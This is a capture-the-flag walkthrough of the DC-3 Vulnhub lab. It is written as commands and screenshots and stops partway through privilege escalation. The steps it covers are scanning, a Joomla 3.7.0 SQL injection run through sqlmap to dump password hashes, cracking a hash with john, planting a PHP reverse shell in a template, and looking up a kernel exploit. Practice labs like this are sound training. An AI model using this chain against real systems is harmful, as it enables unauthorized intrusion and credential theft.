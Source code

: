 # DC3 Vulnhub Walkthrough

#### Description

DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.



## Scanning 

  ### Reconnaissance 
  
Sudo netdiscover
  
  ![Screenshot from 2023-01-17 01-14-16](https://user-images.githubusercontent.com/108471951/213867465-39a9e0fd-e30b-4742-8c6c-4a6cefbe7492.png)

Firstly we have to identify the machine IP address using tool like NetDiscover

### Nmap

nmap -sC -sV -p- 192.168.0.106


![Screenshot from 2023-01-21 18-20-04](https://user-images.githubusercontent.com/108471951/213867561-351b64f7-3804-4da4-90db-c07a1efe64f6.png)


only port 80 open. let’s see what we can find on the website.

![Screenshot from 2023-01-17 01-20-01](https://user-images.githubusercontent.com/108471951/213867622-9bbd872b-781f-4acf-a521-445e13580711.png)

Nothing found here so i went to README.txt page in the website

192.168.0.106/README.txt

![Screenshot from 2023-01-21 18-24-02](https://user-images.githubusercontent.com/108471951/213867810-e75de70c-d523-40e2-b990-a1bf55c0f43c.png)

We can see its a Joomla Site so I used joomscan

joomscan -u http://192.168.0.106/
  
![Screenshot from 2023-01-21 18-29-02](https://user-images.githubusercontent.com/108471951/213867919-f0ab7340-4334-423a-9a9c-dadabe76f01a.png)

![Screenshot from 2023-01-20 16-02-10](https://user-images.githubusercontent.com/108471951/213867966-7967db14-7ab7-4e02-8dfb-3b5c24414afd.png)

I Nothing found here so I searched for exploit for joomla 3.7.0 exploit in searchsploit

searchsploit joomla 3.7.0


![Screenshot from 2023-01-20 17-37-21](https://user-images.githubusercontent.com/108471951/213868030-e86aae21-c9a0-4e7e-b212-b71f0d2fb760.png)

I found a exploit with exact verison 3.7.0 then i copied the exploit to my path using command 

searchsploit -m php/webapps/42033.txt


![Screenshot from 2023-01-20 17-48-31](https://user-images.githubusercontent.com/108471951/213868147-7a2aa1d5-ab05-4eef-9b96-ccdcea692a76.png)

cat 42033.txt

![Screenshot from 2023-01-20 17-50-09](https://user-images.githubusercontent.com/108471951/213868167-ad422f11-2164-449d-82e3-cdc99bf5b56b.png)


here we can check the usage 

As in the usage I have pasted the link which is in usage, after url

![Screenshot from 2023-01-20 17-51-20](https://user-images.githubusercontent.com/108471951/214651912-a329a7ab-bacf-42af-aec7-501a8e9bba0d.png)

By that we gor sql error ,then I confirmed this site is vulnerable to SQL SYNTAX ,after I run sqlmap tool


sqlmap -u "http://192.168.0.106//index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

![Screenshot from 2023-01-20 17-53-37](https://user-images.githubusercontent.com/108471951/214653293-68418277-3efe-4029-b5f2-c6039c748f24.png)


now i got availabe databases 


![Screenshot from 2023-01-20 17-59-26](https://user-images.githubusercontent.com/108471951/214653410-39b75645-6358-4ee2-8a34-cd16924634e9.png)


in this the zoomlabd is intersting for me 

 sqlmap -u "http://192.168.0.106//index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables


![Screenshot from 2023-01-20 18-35-21](https://user-images.githubusercontent.com/108471951/214654180-128d96e0-5ebe-4e96-80a7-68014db604a1.png)


now i got tables 


![Screenshot from 2023-01-20 18-36-07](https://user-images.githubusercontent.com/108471951/214654277-56d102fb-8560-46ee-8ed5-0912b6d3dd32.png)

in that i found users, so i dumped the users

sqlmap -u "http://192.168.0.106//index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump

![Screenshot from 2023-01-20 18-41-22](https://user-images.githubusercontent.com/108471951/214654478-0d269bda-9533-4200-bc23-5957c25609af.png)

here i found user name and passwd,but as we can see the passwd is in hash formate.
i created a file hash.txt with hash in it

 echo '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' >hash.txt
 
![Screenshot from 2023-01-20 18-48-10](https://user-images.githubusercontent.com/108471951/214654966-42939139-5cd4-4ac9-873a-cc9d783df2ae.png)

cat hash.txt


![Screenshot from 2023-01-20 18-48-25](https://user-images.githubusercontent.com/108471951/214655029-59b8b81b-3ebd-4d00-b98d-e9d3ab77696a.png)

i used john tool to decrypt the hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt    

![Screenshot from 2023-01-20 18-48-52](https://user-images.githubusercontent.com/108471951/214655352-51cea122-3d0b-4ed4-b4b5-854d9d248585.png)

I got the passwd = sonnpy

now i have user name and password for the site so now i need admin login page , I am using dirsearch to find the login page 


dirsearch -u https://192.168.0.106  

![Screenshot from 2023-01-20 19-04-53](https://user-images.githubusercontent.com/108471951/214655847-1546b235-4ff3-45b2-ac2a-05c0e877c4fa.png)

![Screenshot from 2023-01-20 19-12-08](https://user-images.githubusercontent.com/108471951/214655998-c6b48a25-2172-4eb2-ad21-2600f7024297.png)

i found /administrator

now i went to login page by 


https://192.168.0.106/administrator


![Screenshot from 2023-01-20 19-12-35](https://user-images.githubusercontent.com/108471951/214656350-7af811e7-fc48-47fa-b9e7-6b9f0f21090a.png)

I successfully signedup the login credintials which we found before


In templates there is index.php where we can upload a php reverse shell

![Screenshot from 2023-01-20 19-14-01](https://user-images.githubusercontent.com/108471951/214656852-dbe38b76-9533-4d53-b18d-3dde0e8d3407.png)


![Screenshot from 2023-01-20 19-14-24](https://user-images.githubusercontent.com/108471951/214657127-e28d5373-bf1b-4f5e-9d1b-fed9343355d3.png)

Now i need a php-reverse-shell so searched for it by useing locate command 

locate php-reverse-shell.php

![Screenshot from 2023-01-20 19-42-08](https://user-images.githubusercontent.com/108471951/214657447-80552ded-32c8-463f-8609-c2f84cd512c0.png)

now I found the path of the php-reverse-shell.php

i open the file using mousepad

mousepad /usr/share/webshells/php/php-reverse-shell

![Screenshot from 2023-01-20 19-42-17](https://user-images.githubusercontent.com/108471951/214657930-0c63df1c-3c1c-4638-8619-ae2bc9f95668.png)

now i edited the IP ,port and given my ip and port as my wish

![Screenshot from 2023-01-20 19-49-49](https://user-images.githubusercontent.com/108471951/214658114-2e9efbc5-1b84-42a0-add2-40c7ac2fadae.png)

now i copied and pasted the text in index.php 

![Screenshot from 2023-01-20 19-53-35](https://user-images.githubusercontent.com/108471951/214658303-a4da57a2-a81a-475b-a209-d9fba5480023.png)

and started listening on the given port 8900

nc -nlvp 8900

![Screenshot from 2023-01-20 19-55-26](https://user-images.githubusercontent.com/108471951/214658581-420d6155-6c90-4a04-b77c-ed625834dcca.png)

now to get the shell i went to templates/beez3/index.php where we uploaded php-reverse-shell

192.168.0.106/templates/beez3/index.php

![Screenshot from 2023-01-20 19-56-05](https://user-images.githubusercontent.com/108471951/214658831-c6ce0a38-4776-4ba7-96c5-4b39803cea01.png)


now i got the shell 
![Screenshot from 2023-01-20 19-56-26](https://user-images.githubusercontent.com/108471951/214658950-2503721c-3312-4002-9a30-1e94d1ab9a2f.png)

uname -a

![Screenshot from 2023-01-20 20-08-17](https://user-images.githubusercontent.com/108471951/214659885-52fcce61-fe1d-4a53-9ea5-68453462f5b7.png)
 
 its a ubuntu server, so to get more deatils
 
 lsb_release -a

![Screenshot from 2023-01-20 20-46-12](https://user-images.githubusercontent.com/108471951/214660110-97afb993-b5db-400c-94f2-a601955ecf44.png)

its ubuntu 16.04 

searchsploit ubuntu 16.04

![Screenshot from 2023-01-20 20-47-52](https://user-images.githubusercontent.com/108471951/214660383-4641b247-2bb8-48d5-b6a4-2664896f636f.png)

double fdput is the famous exploit 


searchsploit -m linux/local/39772.txt

![Screenshot from 2023-01-20 20-49-19](https://user-images.githubusercontent.com/108471951/214661683-2ee93dba-769b-4352-87e6-ae0dbe38952d.png)
 
 
I copied the exploit to my path


ls


![Screenshot from 2023-01-20 21-30-37](https://user-images.githubusercontent.com/108471951/214662156-3ff625f2-61ba-4ee6-b548-cd06cefbb824.png)



cat 39772.txt


![Screenshot from 2023-01-20 21-45-08](https://user-images.githubusercontent.com/108471951/214662741-c1ab005c-e2c0-44ff-acaf-2cc6092b9667.png)

there is some link ,i copied and pasted in the tmp path

cd tmp

![Screenshot from 2023-01-20 21-54-20](https://user-images.githubusercontent.com/108471951/214664561-49114399-d75c-40a1-84ca-ea5a9ea3d4da.png)







